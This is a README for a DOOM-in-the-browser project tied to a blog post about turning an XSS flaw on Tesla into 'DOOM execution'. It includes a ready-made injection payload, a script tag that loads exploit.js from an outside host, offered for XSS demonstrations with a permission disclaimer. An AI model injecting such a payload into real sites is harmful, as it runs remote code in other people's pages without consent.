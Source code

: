 ## DOOM XSS

This project allows you to play DOOM in the browser. Here is [a silly blog post](https://labs.detectify.com/2017/07/27/how-we-invented-the-tesla-dom-doom-xss/) explaining how an XSS vulnerability could be used to achieve "DOOM execution" on Tesla.

### Demo

To demonstrate how this works, follow [this link to GitHub pages](https://almroot.github.io/doom/), or [this link to doom.pwn.life](https://doom.pwn.life/).

### XSS

If you ever want to demonstrate the possibilities of a XSS vulnerability (as shown in the blog post), you may make an inclusion of [exploit.js](https://almroot.github.io/doom/exploit.js) like so: `<script src='https://almroot.github.io/doom/exploit.js'></script>`. Please note that I take no responsibilities for your actions, make sure you have permissions from the website owner(s) before doing anything bad.
